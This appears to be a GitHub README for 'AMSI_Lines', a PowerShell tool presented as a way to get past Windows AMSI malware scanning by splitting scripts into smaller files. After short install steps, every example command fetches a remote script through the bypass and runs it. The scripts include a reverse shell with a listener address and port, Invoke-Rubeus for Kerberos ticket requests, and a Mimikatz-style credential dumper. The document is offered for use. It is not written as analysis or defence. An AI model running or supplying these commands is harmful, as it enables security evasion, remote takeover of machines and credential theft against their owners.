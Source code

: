 # AMSI_Lines

*Bypass AMSI By Dividing files  into multiple smaller files*

### How To Use It

1. Clone The repository: `git clone https://github.com/x4sh3s/AMSI_Lines.git`
2. import the module
```powershell
PS C:\AMSI_Lines>import-module AMSI.ps1
```
3. execute the function `AMSI_Lines` : `AMSI_Lines -File "Url of the File" -Command "Command to be executed directly"`

### Examples:

```powershell
AMSI_Lines -File http://127.0.0.1:8080/revshell.ps1 -Commands "-LHOST MyIp -Port 9001"
AMSI_Lines # This Will Execute Invoke-Rubeus By default with '-h' parameter
AMSI_Lines -file "https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1" -Commands "invoke-rubeus asktgt"
AMSI_Lines -file "http://127.0.0.1:8001/Invoke-Ninikatz.ps1" -Commands "invoke-ninikatz -command coffee"
```
![image](https://user-images.githubusercontent.com/65988560/206858344-097a4dce-6e78-4749-b204-1ba9614ad9f2.png)

